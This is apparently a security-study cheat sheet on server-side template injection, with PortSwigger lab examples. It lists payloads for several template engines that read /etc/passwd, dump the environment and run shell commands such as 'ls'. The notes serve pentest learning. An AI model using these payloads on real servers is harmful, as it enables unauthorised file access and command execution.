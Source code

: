  # Server Side Template Injection (SSTI)

> Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

## Summary
- [Server Side Template Injection (SSTI)](#server-side-template-injection-ssti)
  - [Summary](#summary)
  - [Exploits](#exploits)
    - [identify the template engine](#identify-the-template-engine)
    - [Ruby](#ruby)
      - [Basic injections](#basic-injections)
        - [ERB Template: <%= someExpression %>](#erb-template--someexpression)
          - [Retrieve /etc/passwd](#retrieve-etcpasswd)
          - [List files and directories in file system](#list-files-and-directories-in-file-system)
          - [Print the current directory](#print-the-current-directory)
          - [List the files and folders in the current directory](#list-the-files-and-folders-in-the-current-directory)
        - [Slim Template: #{someExpression}](#slim-template-someexpression)
          - [Code execution](#code-execution)
    - [Python](#python)
      - [Basic injections](#basic-injections-1)
        - [Torando Template: {{someExpression}}](#torando-template-someexpression)
        - [Django framework : {{someExpression}}](#django-framework--someexpression)
    - [Java](#java)
      - [Basic injections](#basic-injections-2)
        - [Freemarker Template: ${someExpression}](#freemarker-template-someexpression)
    - [Javascript](#javascript)
      - [Basic injections](#basic-injections-3)
        - [Handlebars library : {{someExpression}}](#handlebars-library--someexpression)
  - [References](#references)

## Exploits

### identify the template engine 
>this doesn't work every time 

basic injection : 

```bash
${{<%[%'"}}%\
```
>and try to identify the template from 'error message'

 :fire: **example :**

**url:**
 
 ```bash
 https://sub.web-security-academy.net/?message=Unfortunately this product is out of stock
 ```
and there is a message in the web page "Unfortunately this product is out of stock "

 **Modify url to:**

 ```bash
 https://sub.web-security-academy.net/?message=<%= 7 * 7 %>
 ```

you may notice '49' which is the result of 7*7

 if so. This indicates that we may have a server-side template injection vulnerability.

### Ruby

#### Basic injections

##### ERB Template: <%= someExpression %>
```bash
<%= 7 * 7 %>
```

###### Retrieve /etc/passwd

```bash
<%= File.open('/etc/passwd').read %>
```
###### List files and directories in file system
```bash
<%= Dir.entries('/') %>
```
###### Print the current directory
```bash
<%= system("pwd") %>
```
###### List the files and folders in the current directory 

```bash
<%= system("ls") %>
```

##### Slim Template: #{someExpression}

```bash
#{ 7 * 7 }
```

###### Code execution

```bash
#{ %x|env| }
```

### Python 

#### Basic injections

##### Torando Template: {{someExpression}} 

```bash
{{7*7}}
```

In the Tornado documentation, identify the syntax for executing arbitrary Python:

**{% somePython %}**

:fire: **Example:**

```bash
{% import os %}
```

**Real world scenario**

**Request**
```bash
POST /my-account/change-blog-post-author-display HTTP/1.1
Host: sub.web-security-academy.net
```
**Body Request**

```bash
blog-post-author-display=user.name&csrf=jnS1iGLL5K3EEE71olPacQJb2nYP0Fgk
```

**Modified Body Request :**

```bash
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('ls')&csrf=jnS1iGLL5K3EEE71olPacQJb2nYP0Fgk
```

##### Django framework : {{someExpression}}
>if you read Django documentation you may notice that the built-in template tag debug can be called to display debugging information. 

Basic Injection : 
```bash
 {% debug %} 
```
>Study the settings object in the Django documentation and notice that it contains a SECRET_KEY property, which has dangerous security implications if known to an attacker.

### Java 
#### Basic injections
##### Freemarker Template: ${someExpression}

simple injection
```bash
${3*3}
```
```bash
#{3*3}
```
**Exploring**

>you need to read Freemarker documentation to explore properly

```bash
${object.getClass()}
```

### Javascript
#### Basic injections

##### Handlebars library : {{someExpression}}


Basic injection : (input)

```bash
{{this}}
```
output:

```bash
[object Object]
```

## References
* [Portswigger](https://portswigger.net/web-security/server-side-template-injection/)

* [PayloadsAllTheThings - By swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

* [MahmoudSec](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
